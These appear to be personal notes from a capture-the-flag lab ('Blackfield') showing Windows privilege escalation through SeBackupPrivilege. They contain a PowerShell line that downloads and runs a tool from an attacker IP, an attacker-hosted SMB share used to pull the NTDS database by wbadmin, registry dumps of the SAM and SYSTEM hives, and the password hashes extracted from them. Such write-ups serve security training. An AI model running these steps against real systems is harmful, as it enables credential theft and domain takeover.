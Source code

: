 
```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

![[Pasted image 20231119111436.png]]

![[Pasted image 20231119111320.png]]

![[Pasted image 20231119112711.png]]
they haven't disabled the auditor's account which means we can have look into 
nominative domain admin accounts.

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.8:8080/winPEASany.exe') | powershell -noprofile -
```

```
Privilege   : SeBackupPrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 14180
ProcessId   : 2528
Name        : 2528
Check       : Process Token Privileges

Privilege   : SeRestorePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 14180
ProcessId   : 2528
Name        : 2528
Check       : Process Token Privileges

ModifiablePath    : C:\Users\svc_backup\AppData\Local\Microsoft\WindowsApps
IdentityReference : BLACKFIELD\svc_backup
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\svc_backup\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\svc_backup\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath
                    'C:\Users\svc_backup\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

DefaultDomainName    : BLACKFIELD
DefaultUserName      : Administrator
DefaultPassword      :
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons

TaskName     : Server Initial Configuration Task
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=AppendData/AddSubdirectory}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               /></Triggers>
Name         : Server Initial Configuration Task
Check        : Modifiable Scheduled Task Files

TaskName     : Server Initial Configuration Task
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=WriteData/AddFile}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               /></Triggers>
Name         : Server Initial Configuration Task
Check        : Modifiable Scheduled Task Files

TaskName     : Proxy
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=AppendData/AddSubdirectory}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               id="AutochkProxy"><Delay>PT30M</Delay></BootTrigger></Triggers>
Name         : Proxy
Check        : Modifiable Scheduled Task Files

TaskName     : Proxy
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=WriteData/AddFile}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               id="AutochkProxy"><Delay>PT30M</Delay></BootTrigger></Triggers>
Name         : Proxy
Check        : Modifiable Scheduled Task Files

TaskName     : SpaceManagerTask
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=AppendData/AddSubdirectory}
TaskTrigger  : <Triggers xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               ><Enabled>false</Enabled><Delay>PT2M</Delay></BootTrigger><WnfStateChangeTrigger><St
               ateName>7510BCA33E1E8702</StateName></WnfStateChangeTrigger></Triggers>
Name         : SpaceManagerTask
Check        : Modifiable Scheduled Task Files

TaskName     : SpaceManagerTask
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=WriteData/AddFile}
TaskTrigger  : <Triggers xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               ><Enabled>false</Enabled><Delay>PT2M</Delay></BootTrigger><WnfStateChangeTrigger><St
               ateName>7510BCA33E1E8702</StateName></WnfStateChangeTrigger></Triggers>
Name         : SpaceManagerTask
Check        : Modifiable Scheduled Task Files

TaskName     : Recovery-Check
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=AppendData/AddSubdirectory}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><LogonTrigger
               /></Triggers>
Name         : Recovery-Check
Check        : Modifiable Scheduled Task Files

TaskName     : Recovery-Check
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=WriteData/AddFile}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><LogonTrigger
               /></Triggers>
Name         : Recovery-Check
Check        : Modifiable Scheduled Task Files
```


i think this much enumeration is more than enough and i think i should dig more into
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled

As you can see that we have to do backup of a windows PC and will try with hosting a SMB server first but we already now that it will fail as windows supports NTDS file system

Host an smb server
```
smbserver.py -smb2support -user testing -password testing SendYourData $(pwd)
```
![[Pasted image 20231119122121.png]]
We are able to connect successfully 

```
net use x: \\10.10.16.8\SendYourData /user:testing testing
```

```
wbadmin start backup -backuptarget:\\10.10.16.8\SendYourData -include:c:\windows\ntds\
```
![[Pasted image 20231119123022.png]]
We got this error while mounting 

```
dd if=/dev/zero of=ntfs.disk bs=1024M count=2
```
![[Pasted image 20231119133507.png]]
```
losetup -fP ntfs.disk
losetup -a 
sudo mkfs.ntfs /dev/loop0   
sudo mount /dev/loop0 smb/ 
mount | grep smb
```
![[Pasted image 20231119134449.png]]

![[Pasted image 20231119134604.png]]


We have to change the setting in the smb.conf
```
nano /etc/samba/smb.conf
```

```
[SendYourData]
   comment = Pentester Can only Cum In
   browseable = yes
   path = /tmp/
   guest ok = yes
   read only = no
   force user = testing
```

```
echo "Y" | wbadmin start backup -backuptarget:\\10.10.16.8\SendYourData -include:c:\windows\ntds
```
![[Pasted image 20231119125856.png]]
We have to make a ntds file system so that we can take backup

Finally it worked
![[Pasted image 20231119141138.png]]
![[Pasted image 20231119141215.png]]


So we don't have to have the NTDS file system we have 2 options here one is to make temp folder in c and simply copy the .ndts file in that but will come back to smb 

We have to make change and let the guest to login in without any id and password aka guest login.
![[Pasted image 20231119154028.png]]
![[Pasted image 20231119154216.png]]

Not able to successfully mount the ntds share so used different path

I will simply same the reg sam and security file in temp
```
reg save hklm\sam C:\temp\sam
reg save hklm\system C:\temp\system
```
![[Pasted image 20231119170016.png]]

I saved the sam and system file in the profile share so that i can simply download it from there.
![[Pasted image 20231119171803.png]]
![[Pasted image 20231119171821.png]]

```
secretsdump.py -sam sam -system system LOCAL
```
![[Pasted image 20231119171941.png]]

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

So the hashes didn't worked so we have to get our hands on .ndtis file

